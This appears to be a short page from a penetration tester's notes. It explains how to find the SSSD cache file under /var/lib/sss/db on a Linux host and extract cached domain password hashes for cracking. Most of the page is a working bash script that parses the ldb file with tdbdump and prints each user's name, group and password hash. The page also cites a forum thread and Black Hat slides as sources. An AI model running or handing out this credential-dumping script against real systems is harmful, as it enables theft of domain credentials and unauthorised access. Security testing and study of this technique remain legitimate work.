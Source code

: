 ## Obtain Hash from SSSD cache file (ldb format) and crack
1. Discover cached file in /var/lib/sss/db
2. Extract hash from it
```
#!/bin/bash

database="<path to local ldb file>"

for users in `tdbdump $database | grep cachedPassword | cut -d "=" -f 3 | cut -d "," -f 1`
do
	name=`tdbdump $database | grep cachedPassword | grep $users | cut -d "=" -f 7 | cut -d "," -f 1`
	group=`tdbdump $database | grep cachedPassword | grep $users | cut -d "=" -f 13 | cut -d "," -f 1`
	hash="`tdbdump $database | grep cachedPassword | cut -f 2-4 -d '$' |cut -f 1 -d '\\' |sed 's/^/$/g'`"
	echo "$users : $group : $name : $hash"
done
```
Note: It's likely a metasploit module handles this just ran out of time on the box I was messing with to test it
Note: Each domain has it's own cache

## Resources
https://forums.fedoraforum.org/showthread.php?258958-sssd-cache ***Used as the base cached file bash script (sgallah comment)
https://i.blackhat.com/eu-18/Wed-Dec-5/eu-18-Wadhwa-Brown-Where-2-Worlds-Collide-Bringing-Mimikatz-et-al-to-UNIX.pdf ***slide 37 for grep string on bash script

